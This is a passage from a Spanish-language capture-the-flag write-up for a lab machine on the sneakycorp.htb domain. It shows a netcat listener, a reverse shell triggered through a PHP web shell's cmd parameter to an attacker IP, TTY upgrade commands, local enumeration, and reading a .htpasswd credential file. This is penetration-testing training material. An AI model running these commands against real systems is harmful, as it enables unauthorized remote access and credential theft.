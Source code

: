 no es el caso y tenemos capacidad de remote code execution. Ahora intentamos ganar acceso al sistema.



## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell con s4vishell.php {-}

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos una reverse shell 

    ```bash
    dev.sneakycorp.htb/s4vishell.php?cmd=nc -e /bin/bash 10.10.14.20 443
    ```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Descubrimiento de la maquina {-}

```bash
ls -l
cd /home
cd low
ls -la
cd .ssh
ls
cat authorized_keys
ps -fawwx
```

Vemos la flag pero no podemos leerla. Huele a que nos tenemos que convertir al usuario **low**. Tambien vemos un recurso **Pypi** con
un fichero de credenciales tipo `.htpasswd`

```cat
cat /var/www/pypi.sneakycorp.htb/.htpasswd
```
